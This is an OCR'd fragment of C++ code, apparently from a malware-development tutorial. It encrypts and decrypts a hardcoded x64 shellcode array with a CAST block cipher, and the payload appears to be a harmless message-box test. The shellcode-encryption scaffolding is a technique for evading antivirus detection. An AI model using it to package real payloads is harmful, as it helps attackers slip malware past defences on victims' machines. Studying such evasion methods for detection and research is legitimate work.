 ```cpp
        f3(&right, subkeys[i][2]);
        break;
    }
    right ^= left;
    left = temp;
  }

  block[0] = right;
  block[1] = left;
}

void cast_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_encrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}

void cast_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_decrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}

int main() {
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  unsigned char padded[my_payload_len];
  memcpy(padded, my_payload, my_payload_len);

  uint32_t subkeys[ROUNDS][4];
  cast_key_schedule(key, subkeys);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");
```